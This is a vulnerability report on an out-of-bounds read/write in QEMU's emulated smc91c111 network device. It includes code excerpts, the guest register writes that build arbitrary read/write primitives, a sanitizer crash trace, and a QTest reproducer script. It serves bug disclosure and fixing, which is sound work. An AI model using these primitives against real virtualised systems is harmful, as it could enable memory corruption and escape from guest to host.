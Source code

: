 tag: arch: arm
tag: type: OOB read/write

# OOB read/write in hw/smc91c111

There is an OOB read/write in hw/smc91c111 because there is no bound check of
s->data[4][2048].

## Common settings
1 s->packet_num can set max to 0xff
```
// smc91c111_writefn
for (; i < size; i++) {
    smc91c111_writeb(opaque, addr + i, extract32(value, i * 8, 8));}
                                       // only 8 bits
// smc91c111_writeb
case 2: /* Packet Number Register */
	s->packet_num = value;
	return;
```
2 s->ptr can be set with any uint16 but max to 0x7ff
```
case 6: /* Pointer */
    SET_LOW(ptr, value);
    return;
case 7:
    SET_HIGH(ptr, value);
    return;
```
3 target address for read/write primitives
```
int p;
int n;

if (s->ptr & 0x8000)
else
    n = s->packet_num;
p = s->ptr & 0x07ff;
if (s->ptr & 0x4000) {
} else {
    p += (offset & 3);
}
s->data[n][p] = value;
```
Make sure that s->ptr is in [0, 0x7FF] and offset is 8.

The target write address is data + n * 2048 + p => data + s->packet_num * 2048 + s->ptr

Suppose the base address of smc81c111 is 0x10000300,
then to set the target address to s->data[255][2047], you need:

```
writel 0x1000030E 0x00000002
# set s->ptr.low
writel 0x10000306 0x000000ff
# set s->ptr.high
writel 0x10000307 0x00000007
# set s->packet_num
writel 0x10000302 0x000000ff
```
## Read/Write primitives

```
# read data[s->packet_num][s->ptr]
readl 0x10000308
# write data[s->packet_num][s->ptr]
writel 0x10000308 0xdeadbeef
```

## More technique details

### QEMU version, upstream commit/tag
c52d69e7dbaaed0ffdef8125e79218672c30161d/6.1.50

### Host and Guest
Ubuntu 18.04 docker/QTest Fuzzer

### Stack traces, crash details

```
UndefinedBehaviorSanitizer:DEADLYSIGNAL
==536==ERROR: UndefinedBehaviorSanitizer: SEGV on unknown address 0x55efaf82bbdb (pc 0x55efab1a63fb bp 0x7ffc13baa950 sp 0x7ffc13baa8c0 T536)
==536==The signal is caused by a WRITE memory access.
    #0 0x55efab1a63fb in smc91c111_writeb /root/qemu/build-clean/../hw/net/smc91c111.c:458:31
    #1 0x55efab1a63fb in smc91c111_writefn /root/qemu/build-clean/../hw/net/smc91c111.c:669:9
    #2 0x55efab59c811 in memory_region_write_accessor /root/qemu/build-clean/../softmmu/memory.c:491:5
    #3 0x55efab59c504 in access_with_adjusted_size /root/qemu/build-clean/../softmmu/memory.c:552:18
    #4 0x55efab59c504 in memory_region_dispatch_write /root/qemu/build-clean/../softmmu/memory.c:1502:16
    #5 0x55efab71d5db in flatview_write_continue /root/qemu/build-clean/../softmmu/physmem.c:2746:23
    #6 0x55efab717e78 in flatview_write /root/qemu/build-clean/../softmmu/physmem.c:2786:14
    #7 0x55efab717b62 in address_space_write /root/qemu/build-clean/../softmmu/physmem.c:2878:18
    #8 0x55efab735631 in qtest_process_command /root/qemu/build-clean/../softmmu/qtest.c
    #9 0x55efab735631 in qtest_process_inbuf /root/qemu/build-clean/../softmmu/qtest.c:797:9
    #10 0x55efab7ad077 in fd_chr_read /root/qemu/build-clean/../chardev/char-fd.c:68:9
    #11 0x7fb124f6d3a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)
    #12 0x55efaba92e11 in glib_pollfds_poll /root/qemu/build-clean/../util/main-loop.c:231:9
    #13 0x55efaba92e11 in os_host_main_loop_wait /root/qemu/build-clean/../util/main-loop.c:254:5
    #14 0x55efaba92e11 in main_loop_wait /root/qemu/build-clean/../util/main-loop.c:530:11
    #15 0x55efab58cd34 in qemu_main_loop /root/qemu/build-clean/../softmmu/runstate.c:725:9
    #16 0x55efaaf3f215 in main /root/qemu/build-clean/../softmmu/main.c:50:5
    #17 0x7fb1237c9bf6 in __libc_start_main /build/glibc-S9d2JN/glibc-2.27/csu/../csu/libc-start.c:310
    #18 0x55efaaf0efa9 in _start (/root/qemu/build-clean/qemu-system-arm+0x8bffa9)

UndefinedBehaviorSanitizer can not provide additional info.
SUMMARY: UndefinedBehaviorSanitizer: SEGV /root/qemu/build-clean/../hw/net/smc91c111.c:458:31 in smc91c111_writeb
==536==ABORTING
```

### Reproducer steps

I use QTest to reproduce this bug.
Note that QEMU should be instrumented by ASAN or UBSAN.

```
#!/bin/bash -x
export QEMU=/root/qemu/build-clean/qemu-system-arm
export BUILDROOT=./
cat << EOF | $QEMU \
-machine mainstone,accel=qtest -qtest stdio -monitor none -serial none \
-display none -nodefaults -qtest stdio
writel 0x1000030E 0x00000002
writel 0x10000306 0x000000FF
writel 0x10000307 0x00000007
writeb 0x10000302 0x000000FF
# readl 0x10000308
writeb 0x10000308 0x000000FF
EOF
```

## Contact

Let me know if I need to provide more information.
